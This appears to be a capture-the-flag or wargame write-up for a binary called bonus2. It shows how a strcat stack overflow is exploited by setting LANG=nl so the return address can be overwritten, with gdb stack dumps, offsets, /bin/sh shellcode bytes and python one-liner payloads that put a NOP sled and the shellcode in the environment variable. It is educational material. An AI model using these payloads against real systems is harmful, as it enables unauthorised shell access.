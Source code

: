 # Shell code but **** segfault

## context

Program only work with 2 argv[].

Let's run it with gdb:

```py
r ccccaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ffeebbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```

First argv 40 byte wrote in the stack 0xffffd230.

Second argv 32 byte wrote in the stack 0xffffd258.

```py
0xffffd220:	0xf7fc4540	0xffffffff	0x08048034	0xf7fc66d0
0xffffd230:	0x63636363	0x61616161	0x61616161	0x61616161
0xffffd240:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd250:	0x61616161	0x61616161	0x65656666	0x62626262
0xffffd260:	0x62626262	0x62626262	0x62626262	0x62626262
0xffffd270:	0x62626262	0x62626262	0x00000000	0x00000001
```

In function greet user, strcat hello + all the string = 
 
 ```py
0xffffd180:	0xffffd1d4	0xffffd1e0	0xf7ffd000	0x0804823c
0xffffd190:	0x6c6c6548	0x0000206f	0xffffd374	0xf7c39750
0xffffd1a0:	0xf7c0f664	0xf7d8e6c0	0x00000002	0x003055e4
0xffffd1b0:	0xf7c184be	0xffffd230	0xffffd354	0xffffd27c
0xffffd1c0:	0xffffd298	0xf7fd8f84	0x0804873c	0xf7d8e6c0
0xffffd1d0:	0xffffd6af	0xf7ffda40	0xffffd298	0x08048630
0xffffd1e0:	0x63636363	0x61616161	0x61616161	0x61616161
0xffffd1f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd200:	0x61616161	0x61616161	0x65656666	0x62626262
0xffffd210:	0x62626262	0x62626262	0x62626262	0x62626262
0xffffd220:	0x62626262	0x62626262	0x00000000	0xf7fc66d0
 ```

So it write a total of 72 byte: argv + hello.

It segfault at return address 0x08006262, not enought byte wrote. It feel like, hello isnt large enought to lets us overwrite the return pointer as you can see the last address.

```py
0xffffd180:	0xffffd190	0xffffd1e0	0xf7ffd000	0x0804823c
0xffffd190:	0x6c6c6548	0x6363206f	0x61616363	0x61616161
0xffffd1a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd1b0:	0x61616161	0x61616161	0x61616161	0x66666161
0xffffd1c0:	0x62626565	0x62626262	0x62626262	0x62626262
0xffffd1d0:	0x62626262	0x62626262	0x62626262	0x08006262
```

Main() memcmp LANG global var with getenv() if it is equal to fi or nl, it print another language (hint : more byte print than 'hello', it gonna help us overwrite the return pointer).

```c
lang = getenv("LANG");
if (lang != (char *)0x0)
	j = memcmp(lang,"fi",2);
```

```bash
$> env | grep LANG
LANG=en_US.UTF-8

$> export LANG=fi 
$> env | grep LANG
LANG=fi
```
with both fi and nl, return address is completely overwrite
stopped 0x62626262. So no matter which one we use, but it is not the same offset

```c
// for LANG=fi
[+] Found at offset 18 (little-endian search) likely
```
```c
// for LANG=nl
[+] Found at offset 23 (little-endian search) likely
```

I did choose nl.

## Exploit

i did try 2 differents ways to succed the bonus, only the second worked. All exploit used shell code.

### First

Idea was to write a shell code in the first arg, then offset + return address of the shell code.

payload = $(padding + shell code) $(offset + address of the buffer)

- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- buffer address: 0xbffff7f8
- padding \x90 * sizeofthebuffer[40] - shell_code.len = 19
- Offset = 23 (or 18 if you use fi).

```py
$(python2.7 -c 'import sys; sys.stdout.write( b"\x90" * 19 + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")') $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 23 + b"\xf8\xf7\xff\xbf")')
```

This worked fine on gdb, spawing a shell instance but seg on the terminal...

### Second : the Good one

I tryed store the shell code into the LANG var. Yes it is a buffer !

```py
export LANG=$(python2.7 -c 'import sys; sys.stdout.write( b"nl" + b"\x90" * 30 + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

I tried without padding (\x90) but it seg.

To locate the buffer in the stack is easy, set a breakpoint in gdb after the getenv() and print $eax. Add a bit off padding to jump into \x90.

```py
./bonus2 $(python2.7 -c 'import sys; sys.stdout.write( b"\x90" * 40)') $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 23 + b"\xd0\xfe\xff\xbf")')
```